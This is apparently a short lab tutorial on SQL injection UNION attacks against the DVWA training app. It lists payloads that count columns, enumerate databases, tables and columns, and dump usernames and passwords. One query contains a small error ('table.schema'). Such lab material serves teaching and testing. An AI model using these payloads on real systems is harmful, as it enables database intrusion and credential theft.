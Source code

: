 # SQL injection UNION attacks
 The UNION keyword lets you execute one or more additional SELECT queries and append the results to the original query. For example:
```sh
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```
## Steps for Number of columns required in an SQL injection UNION attack 
```sh
' ORDER BY 1#
' ORDER BY 2#
' ORDER BY 3#
```
if exceeds the database returns an error
```sh
Unknown column '3' in 'order clause'
```
After Knowing the Columns present in the data 
 * Next step to find the Database and the user present.
```sh
' UNION SELECT database(),user()#
```
You will get the screen below:
![final1](https://github.com/rahulrbk/Docs/blob/master/pic.png)
After Knowing the database name and the user name we will find 'TABLE' inside the database.
with the following query:
```sh
' UNION SELECT table_name,table_name FROM information_schema.tables WHERE table.schema="dvwadb"#
``` 
![final2](https://github.com/rahulrbk/Docs/blob/master/pic2.png)
Now we have to find the information about Column data present in the table with the following query:
```sh
' UNION SELECT column_name,column_name FROM information_schema.columns WHERE table_schema="dvwadb"#
```
![final3](https://github.com/rahulrbk/Docs/blob/master/pic3.png)
At this point we can search for the critical information of the target by mentioning the following query:
```sh
'UNION SELECT user,password FROM users#
```
![final4](https://github.com/rahulrbk/Docs/blob/master/pic4.png)




